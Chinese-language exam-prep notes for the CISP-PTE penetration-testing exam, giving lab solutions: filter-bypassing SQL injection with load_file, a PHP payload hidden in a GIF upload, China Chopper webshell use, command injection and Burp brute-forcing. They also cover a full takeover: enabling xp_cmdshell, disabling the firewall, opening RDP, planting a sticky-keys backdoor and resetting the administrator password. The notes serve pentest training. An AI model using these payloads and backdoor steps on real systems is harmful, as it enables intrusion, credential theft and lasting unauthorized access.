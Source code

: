 考试要点：

一。选择题：1-20：单选

21-25：

21：sql注入。过滤union,\#

id=-1%27\) uniunionon select 1,2,3,load\_file\("/tmp/360/key"\),5,6,7%20--%20

考虑最后'\)

and/\*\*/\('a'='a

22.没变化：

a.jpg

GIF89a

&lt;?php readfile\("../key.php"\);?&gt;

&lt;?php echo file\_get\_contents\("../key.php"\);?&gt;

burp:send to repeater:

a.php3

右键-查看源码

23.解题：

进入答题：查看页面源码：base64编码：小葵多功能转换工具--解码

菜刀：chopper:右键添加：http://172.16.12.100:81/vulnerabilities/view.html

密码：hello

24.命令执行：&

\| vi ../key.php\|grep key

\|sed -n '1,5p' ../key.php

\|od -c ../key.php



25.验证码暴力破解：



burp抓包--send to intruder:

1.clear

2.删除phpsessid值删除

code=2095 2095删除

3.password=11111--双击--add

4.payload---load--password.txt

password123

cisp-pte

pte-cisp

综合题：

1。开端口：80，8080 nmap -sS ip

http://ip:8080 联系人：天子，电话

暴力破解：管理员：天子

password:woaini521



md5:

2,御剑扫描：www.rar--下载：解压：web.config---读到sa口令

7key:表：第一个表：dbo表：



表：管理员帐户和密码

username:天子

password:md5   123456--小葵多功能工具：md5:49BA59ABBE56E057 最下边：应用：勾



3.8key:网上邻居：key823452rt

必须拿管理员登录：查询--新建查询-

a.恢复cp\_cmdshell

exec sp\_configure 'show advanced options',1;

reconfigure;

exec sp\_configure 'xp\_cmdshell',1;

reconfigure

b.关闭防火墙：

exec master..xp\_cmdshell 'netsh firewall set opmode mode=disable'

c.开启3389：d:\安全工具\提权工具\开启3389\3389.bat

一行一行

exec master..xp\_cmdshell ''



reg add hklm/ 空格 " "

/v /t /d /f

D.shift后门：

exec master..xp\_cmdshell 'cd c:\system32\ && attrib -s -r -h sethc.exe && copy cmd.exe sethc.exe'

e.mstsc--ip:五次shift--cmd.exe :net user administrator 123456

f:mstsc:administrator:桌面--网上邻居：key8

6key:

